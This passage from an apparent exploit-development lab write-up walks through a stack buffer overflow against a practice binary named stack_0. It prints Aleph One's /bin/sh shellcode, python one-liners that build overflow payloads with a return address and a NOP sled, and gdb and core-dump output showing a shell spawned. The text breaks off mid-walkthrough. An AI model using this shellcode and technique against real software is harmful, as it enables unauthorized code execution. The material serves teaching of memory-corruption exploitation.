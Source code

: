 Aleph One's Shell code from phrack magazine

    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"

Putting it all together

    root@local:~/Desktop/Stack# python -c 'print "A"*24+"\x48\xd6\xff\xff"+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"' > payload_0.txt

Run with shellcode

    gdb-peda$ r < payload_0.txt
    Starting program: /root/Desktop/Stack/stack_0 < payload_0.txt
    AAAAAAAAAAAAAAAAAAAAAAAAH▒▒▒▒^▒1▒F▒F
    ▒
     ▒▒▒V
    1ۉ▒@̀▒▒▒▒▒/bin/sh
    
    process 18890 is executing new program: /bin/dash
    [Inferior 1 (process 18890) exited normally]
    Warning: not running or target is remote
We spawn a shell inside gdb right? What about outside of the gdb?

    root@local:~/Desktop/Stack# cat payload_0.txt | ./stack_0
    AAAAAAAAAAAAAAAAAAAAAAAAH▒▒▒▒^▒1▒F▒F
    ▒
     ▒▒▒V
    1ۉ▒@̀▒▒▒▒▒/bin/sh
    
    Segmentation fault
**NOP Trick for shellcode reliable**
We will add \x90 * 40 
we need to edit our eip 
ffffd648+0x14 (20) = ffffd65c

New payload

    root@local:~/Desktop/Stack# python -c 'print "A"*24+"\x5c\xd6\xff\xff"+"\x90"*40+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"' > payload_0.txt

Not work again :-( 
Let's analyze core dump with gdb for why?

**Analyze core dump file**
`ulimit -c unlimited`
When we run payload again , core file dumped.

    root@local:~/Desktop/Stack# cat payload_0.txt | ./stack_0
    AAAAAAAAAAAAAAAAAAAAAAAA\▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒^▒1▒F▒F
    ▒
     ▒▒▒V
    1ۉ▒@▒
    Segmentation fault (core dumped)
launch gdb with core file
